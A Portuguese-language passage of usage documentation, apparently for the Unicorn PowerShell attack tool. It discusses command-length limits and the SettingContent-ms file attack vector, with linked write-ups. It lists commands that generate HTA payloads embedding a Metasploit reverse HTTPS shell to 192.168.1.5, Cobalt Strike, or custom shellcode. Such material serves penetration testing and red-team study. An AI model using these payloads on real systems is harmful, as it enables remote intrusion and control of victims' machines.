 ```
Existem algumas ressalvas com este ataque. Observe que, se o tamanho da sua carga útil for grande por natureza, não
caber em cmd.exe. Isso significa que, de uma perspectiva de argumento de linha de comando, se você copiar e colar,
atingiu a restrição de tamanho de 8191 caracteres (codificada em cmd.exe). Se você estiver iniciando diretamente de
cmd.exe isso é um problema, no entanto, se você estiver iniciando diretamente do PowerShell ou outro
aplicações isso não é um problema.

Alguns exemplos aqui, wscript.shell e powershell usam USHORT - 65535 / 2 = 32767 limite de tamanho:
    typedef struct _UNICODE_STRING {
        USHORT Length;
        USHORT MaximumLength;
        PWSTR  Buffer;
    } UNICODE_STRING;

Para este ataque, se você estiver iniciando diretamente do powershell, VBSCript (WSCRIPT.SHELL), não há
questões.

### -----Método de extensão SettingContent-ms----


Primeiro, se você ainda não teve a chance, acesse o incrível blog SpectreOps de Matt Nelson (enigma0x3):

https://posts.specterops.io/the-tale-of-settingcontent-ms-files-f1ea253e4d39

Este método usa um tipo de arquivo específico chamado ".SettingContent-ms" que permite a capacidade de ambos
cargas diretas de navegadores (abrir + execução de comando), bem como tipo de extensão por meio de incorporação em
produtos de escritório. Este focará especificamente nas configurações do tipo de extensão para execução de comandos
dentro do vetor de ataque PowerShell do Unicorn.

Existem vários métodos compatíveis com esse vetor de ataque. Como há um tamanho de caractere limitado
com esse ataque, o método de implantação é um HTA.

Para uma compreensão detalhada sobre como armar este ataque, visite:

https://www.trustedsec.com/2018/06/weaponizing-settingcontent/

As etapas que você precisará executar para concluir este ataque são gerar seu arquivo .SettingContent-ms de
autônomo ou hta. O método HTA suporta Metasploit, Cobalt Strike e direct
ataques de shellcode.

Os quatro métodos abaixo sobre o uso:

HTA SettingContent-ms Metasploit: `python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 ms`  
HTA Example SettingContent-ms: `python unicorn.py <cobalt_strike_file.cs cs ms`  
HTA Example SettingContent-ms: `python unicorn.py <patth_to_shellcode.txt>: shellcode ms`  
Generate .SettingContent-ms: `python unicorn.py ms`

O primeiro é uma carga útil do Metasploit, o segundo é um Cobalt Strike, o terceiro é o seu próprio shellcode e o quarto
apenas um arquivo .SettingContent-ms em branco.

Quando tudo for gerado, ele exportará um arquivo chamado Standalone_NoASR.SettingContent-ms em
```